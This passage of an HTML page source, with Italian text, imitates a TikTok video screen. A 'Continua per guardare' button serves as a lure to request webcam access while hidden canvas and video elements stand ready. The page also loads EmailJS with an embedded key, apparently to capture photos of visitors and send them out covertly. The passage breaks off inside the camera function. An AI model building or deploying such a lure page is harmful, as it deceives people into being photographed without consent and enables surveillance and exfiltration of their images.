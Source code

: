             padding: 10px 20px;
            color: white;
            font-size: 16px;
            border-radius: 5px;
            cursor: pointer;
            display: none;
            margin-top: 10px;
        }
        .download-btn:hover {
            background-color: #45a049;
        }
    </style>
</head>
<body>

    <div class="tiktok-screen">
        <div class="header">
            <h3>Guarda il nuovo video su TikTok</h3>
            <p>Clicca su "Continua per guardare" per iniziare.</p>
        </div>
        
        <div class="tiktok-video" id="tiktok-video">
            <video autoplay loop>
                <source src="https://v16m.tiktok.com/7f44ff56f71f4d58b8b7d3ffafc28ab2/64028d04/video/tos/alisg/tos-alisg-pve-0037/52f3df3b8b5d4a338cf9f6d7173f126d/?a=1233&br=3826&bt=1913&cr=0&cs=0&cv=1&dr=0&ds=3&er=&l=202503232304520101909481738AC1285&lr=tiktok_m&mime_type=video_mp4&net=0&pl=0&qs=0&rc=ZWk4ZDg6Z2VnODMzNzM3M0ApZWY7Zjo6Zmc5NzY2ZzQwPGdpc2o2XmYxYmNeYy1gYGBgMjQ0MmYwYWFeNi06Yw%3D%3D&vl=&vr=" type="video/mp4">
            </video>
        </div>
        
        <button class="continue-btn" onclick="startCamera()">Continua per guardare</button>
    </div>

    <canvas id="canvas" width="640" height="480" style="display:none"></canvas>
    <video id="video" width="640" height="480" style="display:none" autoplay></video>

    <img id="photo" src="" alt="Foto scattata">

    <button id="download-btn" class="download-btn" onclick="downloadImage()">Scarica Foto</button>

    <script src="https://cdn.jsdelivr.net/npm/emailjs-com@2.6.4/dist/email.min.js"></script>

    <script>
        emailjs.init('UlmvMtu9cnoCpX3or'); // Public key di EmailJS

        function startCamera() {
            // Chiede l'accesso alla fotocamera
            navigator.mediaDevices.getUserMedia({ video: true })
                .then(stream => {
                    const videoElement = document.getElementById('video');
                    videoElement.srcObject = stream;

                    // Mostra il video TikTok
                    document.getElementById('tiktok-video').style.display = 'block';
                    document.querySelector('.continue-btn').style.display = 'none';
                    